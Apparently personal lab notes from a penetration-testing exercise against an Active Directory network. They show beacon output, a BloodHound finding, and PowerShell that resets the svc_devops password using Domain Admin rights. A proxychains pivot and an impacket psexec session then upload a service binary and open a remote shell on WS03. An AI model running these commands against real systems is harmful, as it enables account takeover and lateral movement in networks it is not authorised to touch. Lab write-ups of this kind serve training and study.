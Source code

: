 ```powershell

SessionFrom     : 

SessionFromName : 


[01/09 15:24:50] [+] received output:
LocalAdmin      : 




[01/09 15:26:06] [+] received output:



[01/09 15:26:12] [+] received output:
SVC_DEVOPS


[01/09 15:26:16] [+] received output:
[01/09 15:26:21] [+] received output:
[01/09 15:28:40] [+] received output:
```

start at this restore point
![[Pasted image 20240109164338.png]]
looking at `bloodhound`, `svc_devops` is a part of the `corp_admins@dev.admin.offshore.com` group which has access to `WS03.DEV.ADMIN.OFFSHORE.com` 
![[Pasted image 20240109182300.png]]
![[Pasted image 20240109182205.png]]
utilize these commands to change the password of `svc_devops` while being the `Domain Admin` account `corp\iamtheadministrator`
```powershell
$cred = ConvertTo-SecureString "bugsy_P4ss" -AsPlainText -force
Set-DomainUserPassword -identity svc_devops -accountpassword $cred
```
![[Pasted image 20240109164514.png]]
run `crackmapexec` to ensure that the password was changed
![[Pasted image 20240109164544.png]]setup proxy pivot on the DC01
![[Pasted image 20240109164629.png]]
ensure to modify `proxychains.conf`

`psexec'd` onto `ws03
this shell is very very slow due to going through proxychains
```powershell
┌──(root💀gobots)-[09Jan2024 18:50:11]-[/usr/share/windows-resources/powersploit/Recon]
└─# proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py CORP.LOCAL/svc_devops@172.16.2.102
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Impacket v0.11.0 - Copyright 2023 Fortra

Password: bugsy_P4ss
[*] Requesting shares on 172.16.2.102.....
[*] Found writable share ADMIN$
[*] Uploading file fOqHJdQp.exe
[*] Opening SVCManager on 172.16.2.102.....
[*] Creating service KWDU on 172.16.2.102.....
[*] Starting service KWDU.....
[!] Press help for extra shell commands
```